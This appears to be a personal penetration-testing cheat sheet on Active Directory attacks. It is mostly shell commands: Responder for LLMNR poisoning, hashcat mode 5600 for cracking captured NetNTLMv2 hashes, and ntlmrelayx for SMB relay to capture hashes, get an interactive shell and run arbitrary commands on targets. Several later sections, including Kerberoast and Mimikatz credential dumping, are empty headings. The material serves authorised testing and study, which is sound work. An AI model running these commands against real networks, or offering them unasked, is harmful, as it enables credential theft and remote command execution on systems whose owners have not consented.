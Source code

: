 # Basic AD Attacks
### LLMNR/Responder
Start Responder
```bash
sudo Responder -I <iface> -dwP
```
Crack w/ hashmode 5600 in hashcat
```bash
hashcat -a 0 -m 5600 <hashfile> <wordlist>
```
### SMB Relay
SMB Signing must be disabled or not enforced

Disable SMB and HTTP in responder
```bash
sudo vim /etc/responder/responder.conf
```
Turn on responder
```bash
sudo Responder -I <iface> -dwp
```
Create a targets.txt file (List of all relay attack targets.

Capture hashes
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support
```
Open a shell
```bash
nc 127.0.0.7 11000 #Open a netcat listener

sudo ntlmrelayx.py -tf targets.txt -smb2support -i
```
Run a command
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "<command"
```

### IPv6 DNS TakeOver

### Passback Attacks

### Pass the Hash (PTH)

### Kerberoast

### Token Impersonation

### LNK File Attacks

### Credential Dumping (Mimikatz)

